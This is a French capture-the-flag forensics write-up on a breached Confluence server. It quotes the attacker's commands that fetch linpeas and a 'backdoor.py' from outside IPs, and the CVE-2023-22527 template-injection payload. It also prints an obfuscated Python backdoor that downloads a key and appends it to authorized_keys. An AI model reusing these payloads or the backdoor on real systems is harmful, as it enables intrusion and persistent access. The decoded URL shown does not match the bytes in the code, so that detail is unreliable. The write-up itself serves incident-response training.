










# Scénario 1

La Bibliothèque du Pacifique, véritable trésor culturel abritant les récits et légendes d'océanie, a récemment lancé son site internet. Cette initiative visait à partager avec le monde entier la richesse unique de cette région. Malheureusement, un événement catastrophique a frappé : le site est devenu inaccessible et toutes les données ont disparu.

Par chance, une procédure de sauvegarde avait été mise en place, conservant des fichiers clés tels que les journaux système, l'historique des modifications, et d'autres traces numériques. Ces vestiges sont désormais la seule lueur d'espoir pour résoudre ce mystère et restaurer le patrimoine culturel perdu.

Dans cette première partie nous allons vous mettre à disposition le fichier Bash History du serveur. On sait que l'attaquant a réussi à élever ses privilèges en Root. Donnez-nous le script qu'il a utilisé pour énumérer le serveur ainsi que le pays où il est stocké.

Format du flag : ``OPENNC{Pays_nomdu.script}``

**Auteur :** ``Ketsui``


## Résolution

Voici des lignes interessantes, on peut voir que l'acteur malveillant stabilise son shell avec python avant de télécharger un fichier hébergé sur l'un de ses serveurs.

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
wget http://87.250.224.21/linpeas.sh  
env
```
Il suffit alors de faire quelques recherches et on tombe sur les descriptions de ce script.

https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS

Pour l'ip : https://www.iplocation.net/ip-lookup

flag : ``OPENNC{Russie_linpeas.sh}``


# Scénario 2

Trouver la solution attaquée, son ip et son port.

Format du flag : ``OPENNC{solution_ip:port}``

**Auteur :** ``Ketsui``


## Solution

En analisant la premiere requete HTTP nous pouvons répondre à cette question.



Mais on peut également en suivant les http STREAM




Il s'agit donc de la solution Confluence : https://www.atlassian.com/fr/software/confluence

IP:PORT == 192.168.134.130:8090


flag : ``OPENNC{confluence_192.168.134.130:8090}``

# Scenario 3

Grace à vous l'équipe va pouvoir directement travailler sur la remédiation. Mais pour cela il faut connaitre quelle vulnérabilité à été exploité.

Très bien, à présent, veuillez identifier la CVE exploitée ainsi que le moment exact où elle a été utilisée pour la première fois sur le serveur.

Format TIME UTC == YYYY-MM-DD_HH:MM:SS

Format du flag : ``OPENNC{CVE-XXXX-XXXXX_YYYY-MM-DD_HH:MM:SS}``

**Auteur :** ``Ketsui``


## Résolution

On va filtré pour voir uniquement les requetes http en methode POST.

```
http.request.method == POST
```



On remarque que dans un environnement de production, la présence d'un chemin "template" est assez rare pour nous y interesser.

On regarde la requete :



Ah voila quelque chose d'interessant, on remarque tout de suite un exec d'une commande linus "ls"
```
Form item: "x" = "@org.apache.struts2.ServletActionContext@getResponse().getWriter().write((new freemarker.template.utility.Execute()).exec({"ls"}))\r\n"
```

Regardons la réponse : 



Bingo, un retour de commande, on a une big une RCE.

Pour trouver la RCE on va faire une petite recherche google du directory path: 

```
"Confluence" "RCE" "//template/aui/text-inline.vm"
```

Bingo !


Bon récapitulons, nous avons la request et son time, la CVE et... bah c'est tous pour cette question enfaite. 

PS : Pour le TIME il faut bien mettre en UTC.




flag : ``OPENNC{CVE-2023-22527_2024-08-15_22:51:08}``


# Scénario 4

Maintenant que vous en savez un peu plus, vous allez pouvoir analyser ce que l'attaquant a fait en exploitant cette vulnérabilité. 

Après avoir effectué une énumération basique, l'attaquant a tenté de télécharger un fichier malveillant. Veuillez nous fournir le nom de ce fichier ainsi que le pays associé à l'adresse IP de l'attaquant.

Format du flag : ``OPENNC{fichier.xy_Pays}``

**Auteur :** ``Ketsui``

## Résolution

On applique la première requete en filtre : 

```
_ws.col.info == "POST //template/aui/text-inline.vm HTTP/1.1  (application/x-www-form-urlencoded)"
```


Voyons voir la derniere requete :



```
Value: @org.apache.struts2.ServletActionContext@getResponse().getWriter().write((new freemarker.template.utility.Execute()).exec({"wget https://182.121.42.87/backdoor.py"}))\r\n
```

On passe l'ip  dans : https://www.iplocation.net/ip-lookup




flag : ``OPENNC{backdoor.py_Chine}``


# Scénario 5

Nous avons mis la main sur le fichier en question. Cependant, nos analyses ne parviennent pas à l'interpréter ni à l'examiner correctement.

Il s'agit du dernier défi de ce parcours. Trouvez le flag.


Format du flag : ``OPENNC{qulquechose}``

**Auteur :** ``Ketsui``

## Résolution

Honétement en 2 sec si vous mettez dans Gemini ou ChatGPT vous aurez la réponse. Néonmoins un peu d'explication.


Nous avons le code suivant :


```python
import requests as __import_0__
import base64 as __import_1__

def __function_0__():
    __variable_0__ = bytearray([104, 116, 116, 112, 115, 58, 47, 47, 112, 97, 115, 116, 101, 98, 105, 110, 46, 97, 105, 47, 114, 97, 119, 47, 105, 111, 122, 108, 102, 103, 109, 48, 112, 112])
    __variable_1__ = 10
    for __variable_2__ in range(len(__variable_0__)):
        __variable_0__[__variable_2__] ^= __variable_1__
    __variable_3__ = __variable_0__.decode('ascii')
    __variable_4__ = __import_0__.get(__variable_3__)
    __variable_4__.raise_for_status()
    __variable_5__ = __variable_4__.text
    __variable_6__ = "/home/tchia/.ssh/authorized_keys"
    with open(__variable_6__, "a") as __variable_7__:
        __variable_7__.write(__variable_5__ + "\n")

if __name__ == "__main__":
    __function_0__()

```

Pas besoin de trop chercher, on va juste print la variable 0 :

```python
import requests as __import_0__
import base64 as __import_1__

__variable_0__ = bytearray([104, 116, 116, 112, 115, 58, 47, 47, 112, 97, 115, 116, 101, 98, 105, 110, 46, 97, 105, 47,>__variable_1__ = 10
print(__variable_0__)
```

Resultat : 

```bash
┌──(ketsui㉿Ketsui)-[~/Downloads/HACKAGOU]
└─$ python3 print.py
bytearray(b'https://pastebin.com/raw/5aHj19ke')
```

SUPER ! on va check ce qu'il y a derière ce lien : https://pastebin.com/raw/5aHj19ke




Format du flag : ``OPENNC{Br4v0_Vous_4vez_Termin3}``
